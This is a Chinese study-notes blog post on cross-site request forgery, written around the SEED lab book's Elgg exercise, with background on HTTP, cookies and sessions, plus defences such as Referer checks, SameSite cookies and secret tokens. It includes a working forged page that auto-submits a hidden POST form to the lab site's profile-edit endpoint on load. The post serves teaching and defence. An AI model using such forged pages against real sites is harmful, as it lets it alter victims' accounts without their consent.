







[toc]

## 0. 前言

来源：[《Computer Security》A Hands-on Approach](https://www.handsonsecurity.net/)   — Wenliang Du

所有的代码/文档见github：https://github.com/da1234cao/computer_security

这里简单做个笔记。

由于我当年学习java web的时候很不走心，现在看web security，有点”欢乐“。

落下的内容比较多，一次也补不完，这篇文章质量相当一般。

待补充JS的相关内容。

<br>

## 1. 摘要和总结

翻译书中部分内容：

> 在跨站请求伪造（Cross-Site Request Forgery, CSRF)攻击中，受害者被欺骗的访问了攻击者的网页(web page)，当目标目标网站还有该用户的active session.当受害者访问攻击者的web page，攻击者会创建一个伪造请求(forged request)，这个request 包含在malicious web page中。如果目标网站不能分辨出该request是否来自于它自己的web page还是来自于第三方的web page，这里将会出现问题，因为处理forged request会导致安全问题。许多网站受到了这种攻击的伤害。幸运的是，抵御CSRF攻击并不是特别难。典型的解决办法包含：secret tokens, same-site cookies，它们可以帮助网站分辨出一个请求是来自于自己的页面还是第三方的页面。

老样子，还是三步走”战略“：介绍CSRF的相关内容+实验CSRF攻击+防御措施。

<br>

## 2. 相关工作

### 2.1 get 和 post 方法

参考文章：

* [Web安全测试：使用火狐浏览器修改请求参数](https://blog.csdn.net/weixin_39734304/article/details/103175941) :在浏览器中查看HTTP request header.(get/post是request的两个方法)

* [看完这篇HTTP，跟面试官扯皮就没问题了](https://www.cnblogs.com/cxuanBlog/p/12177976.html) : 起始行，请求头部(header中的信息解读)，实体。
* [HTTP Headers](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers) :遇到不知道的field(参数)，可以来这里查找。
* [HTTP 方法：GET 对比 POST](https://www.w3school.com.cn/tags/html_ref_httpmethods.asp) :这是我当年上java web时候，老师告诉我的内容。get方法查询字符串（名称/值对）是在请求的 URL 中发送的；post方法查询字符串（名称/值对）是在 POST 请求的 HTTP 消息主体中发送的；
* [GET和POST的区别](https://www.zhihu.com/question/28586791) ：**GET 和 POST 方法没有实质区别**，只是报文格式不同。

get方法查询字符串（名称/值对）是在请求的 URL 中发送的；post方法查询字符串（名称/值对）是在 POST 请求的 HTTP 消息主体中发送的；

上面基本理解了get和post方法后，我们在浏览器中进行查看。(没办法，太菜了，这些基本内容，我还得查半天)



<br>

### 2.2 cookie 和 session

参考视频：[Cookie和Session视频教程](https://www.bilibili.com/video/BV1s4411z7zq) :cookie,session,cookie和session的关系。

参考文章：[Cookie 和 Session 关系和区别](https://juejin.im/post/5aa783b76fb9a028d663d70a) :如果看完文章不是很清楚呢，可以倍速刷下上面的视频。

**cookie数据存放在客户的浏览器（客户端）上，session数据放在服务器上，但是服务端的session的实现对客户端的cookie有依赖关系的**；下面简单介绍下cookie和session的关系，不画流程图。

* 假设我们的浏览器中已经保存对应某个网站的cookie了。
* 我们打开浏览器，在地址栏中输入该网站对应的网址，回车。
* 发起get请求，这个请求中包含该网站的对应的cookie；该cookie中包含验证信息，所以不用输入账号和密码便可以直接登录。
* 服务器内存创建一个session，每一个session有对应的session id。这个session id在返回响应的时候，被发送到客户端（通过什么变量传递回来的，我不知道），被客户端保存在cookie中。
* 此时，当我们在该网站的不同的网页中左右横跳的时候，通过跟随request中的cookie中的session id，使用相同的session。
* 当我们放下电脑去吃饭，一段时间后，服务器中对应的session的生命周期过去，session中的内容写入数据库，该session被清除。
* 吃完饭回来后，访问页面，会使用cookie重新登录，服务器重新创建session，重复上述过程。
* 我们客户端的感觉是：打开网站自动登录；在同一个浏览器中，不管何时，不管使用几个table访问该网站，结果总是统一的。

<br>

### 2.3 跨站请求和它的问题

参考文章：

[什么是CSRF攻击？](https://zhuanlan.zhihu.com/p/38169095) :即本次实验的过程。

[前端安全系列（二）：如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html) :这是一篇有水准的文章，这篇文章离它还有很远的距离。

自己网站的页面，发送一个HTTP请求，到自己的网站，被称为相同站点请求。

**如果这个请求被发送到其他站点，它被称为跨站请求。即页面的来源和请求的去处不同。**

如果没有跨站请求，每个网站只能访问自己网站的内容，无法联结到其他网站。

eg：比如我这篇文章中的参考文章链接，当我们点击它们的时候发送request。这个请求来源于本文章所在的站点，但是请求的目标服务器却可能是另一个服务器站点。即，来源和去处不同。如下面书上的图所示。




当我们点击进入一个恶意网站的时候，这个恶意网站包含一个针对目标服务器的请求。但是由于受害者打开这个网站，该请求会在发送的时候，带上浏览器中对应目标网站的cookie。如果目标网站没有分辨是否为跨站请求，目标网站将该可能包含恶意参数的request，当做正常请求来处理，这就出现了安全问题。



<br>

### 2.4 DNS服务

这次实验的环境不需要自己配置，seed实验的虚拟机中已经配置好了，这是非常好的。

[Elgg 系统 CSRF 攻击实验](https://www.shiyanlou.com/courses/303) ,如果你想尝试的话，可以在实验楼简单操作下。我没有在这里操作过，web交互的体验感不太好。

由于是在虚拟中，书上是将域名和IP硬写在hosts文件中。

```shell
[07/03/20]seed@VM:.../Elgg$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	VM

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1       User
127.0.0.1       Attacker
127.0.0.1       Server
127.0.0.1       www.SeedLabSQLInjection.com
127.0.0.1       www.xsslabelgg.com
127.0.0.1       www.csrflabelgg.com
127.0.0.1       www.csrflabattacker.com
127.0.0.1	www.repackagingattacklab.com
127.0.0.1	www.seedlabclickjacking.com
```

这里没有什么问题。但在现实中，域名或许没变，但对应的IP可以变换。如果硬写在hosts中，可能会导致我们访问到旧IP对应的网站，而不是新网站。所以下面提及些DNS的相关内容。

以前在《计算机网路》这门课中了解过DNS，书中没有操作内容。

刷过B站《linux就该这么写》中DNS服务器的配置视频，没有试过。

**阅读下面文章：读了不一定懂了，懂了也不一定会操作。**

一套DNS介绍：[域名解析详解](https://cloud.tencent.com/developer/article/1365761?from=10680) + [dig 命令洞察 DNS 解析过程](https://cloud.tencent.com/developer/article/1366027) + [为什么全球只有13组根域名服务器？](https://cloud.tencent.com/developer/article/1366044?from=10680) + [快速搭建 DNS 服务器](https://cloud.tencent.com/developer/article/1366736?from=10680)

另一套：[DNS 原理入门](https://www.ruanyifeng.com/blog/2016/06/dns.html) + [浏览器的DNS缓存](https://www.jianshu.com/p/9bca699b20fa) + [What happens when you update your DNS?](https://jvns.ca/blog/how-updating-dns-works/)

补：[Domain name resolution (简体中文) --wiki](https://wiki.archlinux.org/index.php/Domain_name_resolution_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87))

<br>

## 3. CSRF攻击实验

参考文章：[HTML 教程](https://www.w3school.com.cn/html/index.asp) 、[JavaScript 教程](https://www.w3school.com.cn/js/index.asp)

我基本不会JS，临时看了点。这本书看完得补充下这部分内容。

下面是先通过查看http的header内容，分析request中的参数信息，以创建恶意的request。

具体过程见书上，这里略。下面仅仅给出get/post在恶意网站中的代码。

```html
<!DOCTYPE html>
<html>
    <body>
        <h1>This is a forge page for HTTP request GET</h1>
        <!-- --> 
        
    </body>
</html>
```

```html
<!DOCTYPE html>
<html>
    <body>
        <h1>This is a post forge page</h1>
        <!-- 代码来源：https://zhuanlan.zhihu.com/p/38169095-->
        <script>
            function post(url,fields){
                var f = document.createElement("form");
                f.action = url;
                f.innerHTML = fields;
                f.method = "post";
                document.body.appendChild(f);
                f.submit();
            }

            function csrf_hack(){
                var fields ="";
                fields += "<input type='hidden' name='name' value='dacao'>";
                fields += "<input type='hidden' name='briefdescription' value='I am dacao. I am from China.'>";
                fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
                fields += "<input type='hidden' name='location' value='China'>";
                fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
                fields += "<input type='hidden' name='guid' value='42'>";
                var url = "http://www.csrflabelgg.com/action/profile/edit";

                post(url,fields);
            }

            window.onload = function() { csrf_hack(); }
        </script>
    </body>
</html>
```

实验结果：给受害者添加了一个朋友，修改了她的主页信息。



## 4. 防御措施

**web服务器无法判断，一个链接是否为cross-site。浏览器可以判断一个链接是否为crose-site;但是浏览器并没有将该信息传递给服务器。所以需要搭建浏览器和服务器之间的"桥梁"。**

### 4.1 使用referer Header

参考文章：[HTTP Referer 教程](http://www.ruanyifeng.com/blog/2019/06/http-referer.html)

**在发送请求的时候，包含一个referer字段，用来存储它的来源网址。服务器将来源网址和现在的网址对边，便知道是否为跨站请求。** 当会告诉目标服务器，网址的来源，一定程度上泄露了隐私。



我们有时候逛知乎，当打开一个链接的时候，会出现下面的跳转页面





对于开发者来说，`rel="noreferrer"`属性是最简单的一种方法。`<a>`、`<area>`和`<form>`三个标签可以使用这个属性，一旦使用，该元素就不会发送`Referer`字段。

<br>

### 4.2 same-site cookie

参考文章：[Cookie 的 SameSite 属性](https://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html) 

> Cookie 的`SameSite`属性用来限制第三方 Cookie，从而减少安全风险。它可以设置三个值:Strict,Lax,None
>
> `Strict`最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送 Cookie。换言之，只有当前网页的 URL 与请求目标一致，才会带上 Cookie。这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，用户点击跳转就不会带有 GitHub 的 Cookie，跳转过去总是未登陆状态。
>
> `Lax`规则稍稍放宽，大多数情况也是不发送第三方 Cookie，但是导航到目标网址的 Get 请求除外。

<br>

### 4.3 secret token

参考文章：[CSRF的详细介绍与token的分析](https://blog.csdn.net/wjtlht928/article/details/46563809) ，[前端安全系列（二）：如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)

> CSRF攻击之所以能够成功，是因为攻击者可以伪造用户的请求，该请求中所有的用户验证信息都存在于Cookie中，因此攻击者可以在不知道这些验证信息的情况下直接利用用户自己的Cookie来通过安全验证。由此可知，抵御CSRF攻击的关键在于：在请求中放入攻击者所不能伪造的信息，该信息不存在于Cookie之中。鉴于此，系统开发者可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中没有token或者token内容不正确，则认为可能是CSRF攻击而拒绝该请求。

在web page中放入随机数。从该页面发起的请求，包含该随机数。服务器取出该随机数与保存在session中的对应内容进行对比，判断是否为跨站请求。

<br>

## 参考文章汇总

[Web安全测试：使用火狐浏览器修改请求参数](https://blog.csdn.net/weixin_39734304/article/details/103175941)

[看完这篇HTTP，跟面试官扯皮就没问题了](https://www.cnblogs.com/cxuanBlog/p/12177976.html)

[HTTP Headers](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers)

[HTTP 方法：GET 对比 POST](https://www.w3school.com.cn/tags/html_ref_httpmethods.asp) 

**[GET和POST的区别](https://www.zhihu.com/question/28586791)** 

**[Cookie和Session视频教程](https://www.bilibili.com/video/BV1s4411z7zq)**

[Cookie 和 Session 关系和区别](https://juejin.im/post/5aa783b76fb9a028d663d70a) 

[什么是CSRF攻击？](https://zhuanlan.zhihu.com/p/38169095)

**[前端安全系列（二）：如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)**

**[DNS 原理入门](https://www.ruanyifeng.com/blog/2016/06/dns.html)**

[JavaScript 教程](https://www.w3school.com.cn/js/index.asp)

**[HTTP Referer 教程](http://www.ruanyifeng.com/blog/2019/06/http-referer.html)**

**[Cookie 的 SameSite 属性](https://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html)**